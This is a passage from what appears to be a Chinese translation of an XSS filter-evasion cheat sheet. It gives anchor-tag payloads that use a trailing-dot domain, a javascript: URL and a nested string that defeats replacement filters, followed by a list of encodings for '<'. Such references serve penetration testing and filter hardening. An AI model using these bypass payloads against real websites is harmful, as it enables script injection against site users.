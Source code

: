 **绝对 DNS用额外的点**

```
<A HREF="http://www.google.com./">XSS</A>

```

**JavaScript link location**

```
<A HREF="javascript:document.location='http://www.google.com/'">XSS</A>

```

**针对内容替换的攻击向量**假设 "http://www.google.com/" 会被替换为空。我确实使用了一个简单的攻击向量去针对特殊文字过滤依靠过滤器本身。这是一个例子去帮助创建向量。（IE: "java script:" 被替换为"java script:", 它是仍可以工作在 IE,使用安全模块的 Netscape 8.1+ 和 Opera）

```
<A HREF="http://www.gohttp://www.google.com/ogle.com/">XSS</A>

```

* * *

字符编码表
-----

再付 "<" 在html或是javascript中所有可能的编码形式。它们绝大多数是无法正常渲染的，但是可以在上文中某些情景下得到渲染。

```
<
%3C
&lt
&lt;
&LT
&LT;
&#60
&#060
&#0060
&#00060
&#000060
&#0000060
&#60;
&#060;
&#0060;
&#00060;
&#000060;
&#0000060;
&#x3c
&#x03c
&#x003c
&#x0003c
&#x00003c
&#x000003c
&#x3c;
&#x03c;
&#x003c;
&#x0003c;
&#x00003c;
&#x000003c;
&#X3c
&#X03c
&#X003c
&#X0003c
&#X00003c
&#X000003c
&#X3c;
&#X03c;
&#X003c;
```